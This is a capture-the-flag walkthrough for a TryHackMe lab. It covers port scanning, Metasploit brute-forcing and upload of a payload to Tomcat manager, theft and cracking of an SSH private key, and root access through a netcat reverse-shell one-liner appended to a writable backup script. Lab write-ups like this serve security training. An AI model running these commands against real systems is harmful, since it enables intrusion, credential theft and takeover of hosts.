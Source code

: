 CTF Link: tryhackme.com/jr/thecyb3rctfv1
Link 2: https://tryhackme.com/jr/thecyberctf0x1

---

Level: Easy (For Beginners)

## **Methodology:**

**Network scanning**

- nmap
- naabu

**Enumeration**

- Abusing HTTP

**Exploitation**

- Metasploit
- John the Ripper

**Privilege Escalation**

- writable script
- Capture the Flag

---

### **Network Scanning**

Initially, we will scan the network to find the Victim machine IP using the netdiscover command.

We have the machine's ip: `10.10.139.12`

**naabu** + **Nmap**

Further, we ran scan for open port enumeration where we found the following port details:

- `echo 10.10.139.12 | naabu -nmap-cli 'nmap -sV -oX nmap-output'`

According to the Nmap output, we get

- on port 22 SSH server running (OpenSSH)
- on port 8080 HTTP service running (Apache tomcat)
- ![](images/naabu.png)

### **Enumeration**

**Abusing HTTP**

Now let’s see if we can get any interesting information from port 8080. Because the Apache Tomcat Server is running on port 8080, we can see the result right away in the browser.

We note the Tomcat version number: 9.0.52

> URL:  **10.10.139.12:8080**

- ![](images/website.png)

Here is a Login page

- ![](images/userpasslogin.png)

### **Exploitation**

**Metasploit**

Now, let’s start msfconsole. We will be using the auxiliary scanner to bruteforce tomcat manager login. Here we are using Metasploit default wordlist for password brute force attack.

- msfconsole
- ![](images/msf.png)

- > `search tomcat login`
- ![](images/tomact_mg_login.png)
- `use 0`
- `options`
- ![](images/mgr_login_options.png)
- `set RHOSTS 10.10.139.12`
- `exploit`
- ![](images/userpass.png)
- tomcat:role1
- login

- Upload functionality
- ![](images/upload_website_options.png)

- `ifconfig`
- my vpn ip: `10.17.66.156`
- ![](images/vpn_ip_check.png)

- `search tomcat upload mgr`
- ![](images/tomact_mgr_upload.png)

- use 1
- options
  - `set HttpUsername tomcat`
  - `set HttpPassword role1`
  - `set RHOSTS 10.10.139.12`
  - `set RPORT 8080`
  - `set LHOST 10.17.66.156`
  - ![](images/Pasted image 20220925230425.png)
- exploit
  - ![](images/meterpreter_shell.png)

After getting the meterpreter shell we navigate to the ‘home’ directory and there we can find a sub-directory named ‘thales’. Entering the ‘thales’ directory we get two files: **user.txt** and **notes.txt.** We also find a **.ssh** directory.

- `cd /home`
- `ls`
- `cd thales`
- `ls`
  ![](images/ls_home_thales.png)

We observe that the public key (id_rsa.pub) and the private key(id_rsa) are present on the victim machine. The private key is used to login. So now we proceed to download the private key onto our kali machine.

cd .ssh

ls

download id_rsa /root/Desktop
![](images/download_id_rsa.png)

locate ssh2john

/usr/share/john/ssh2john.py id_rsa > sshhash

john --wordlist=/usr/share/wordlists/rockyou.txt sshash
![](images/john_crack.png)

found: vodka06

go back to your meterpreter

- `shell`

After we get a shell, we will upgrade our non-interactive shell to a partially interactive one using the following command:

- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`

Since we have cracked the password of user ‘thales’, let’s switch to the thales user.
`su thales`
After switching to thales user, we use the command “**id**” to know about the real and effective ‘user and group’ IDs. We find that thales is a non-root user.

![](images/thales_password.png)

cat the users.txt now

We now use “ sudo -l “ to check which commands can be run as root by the user thales.

- `sudo -l`

We find that user thales does not have the ability to run any command as root. So now we navigate around in search of some interesting files.

We get a hint on note.txt that a backup script is prepared for us in the directory **/usr/local/bin/backup.sh**

![](images/backup_explain.png)

Now, let’s go and check the backup.sh file. We investigate and find that this file has read, written, and execute permissions and the file is owned by the root.

- `cat /usr/local/bin/backup.sh`
- `ls -la /usr/local/bin/backup.sh`

![](images/backup.sh.png)

---

### Privilege Escalation

Since the backup.sh is writable thus we can edit this script by injecting reverse shell payload and expect to get root shell access.

On our attacking machine ( kali ) we will start a Netcat listener to receive the shell, on port 8888

`nc -lvp 8888`

Execute the following command in the terminal to append the backup.sh script for injecting malicious payload.

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.6.180 8888 >/tmp/f" >> /usr/local/bin/backup.sh`

since it was a backup script that run automatically, thus it will give root privilege reverse shell over port 8888.

**Capture the root flag**

- `id`
- `cd /root`
- `ls`
- `cat root.txt`
